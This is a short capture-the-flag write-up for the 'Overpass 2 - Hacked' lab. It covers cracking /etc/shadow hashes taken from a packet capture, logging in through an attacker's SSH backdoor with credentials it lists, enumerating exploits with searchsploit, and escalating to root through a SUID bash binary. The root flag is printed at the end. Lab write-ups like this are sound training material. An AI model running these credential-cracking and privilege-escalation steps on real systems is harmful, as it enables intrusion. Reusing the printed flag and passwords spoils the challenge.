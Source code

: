 # Overpass2hacked

Examine capture file
Copy hashes from /etc/shadow for offline cracking with fasttrack.txt in john
ound 4 passwords
	• secret12         (bee)
	• abcd123          (szymex)
	• 1qaz2wsx         (muirland)
secuirty3        (paradox)

# Initial access
The hacker left a backdoor on **SSH port 2222**
Username: `james`
Password:`november16`

![[9ec9a0c9ac1d40e7966281e38594e7eb.png]]
# Enumeration
## Got kernel version
```
uname -a
```
## search for Linux Kernel 4.15 exploits
```
$ searchsploit linux 4.15
```
![[222b2b8221514397b12bb42fa1b6bd17.png]]

## Look around the file system
![[14ad1ed7b0de4b78ad5d7dd55c5665f9.png]]

### Abusing .suid_bash
![[0c17acc4b5e0495f959560adf18b733d.png]]

```
james@overpass-production:/home/james$ ./.suid_bash -p
.suid_bash-4.4# whoami
root
.suid_bash-4.4# cd /root
.suid_bash-4.4# ls
root.txt
.suid_bash-4.4# cat root.txt
thm{d53b2684f169360bb9606c333873144d}
```

root flag `thm{d53b2684f169360bb9606c333873144d}`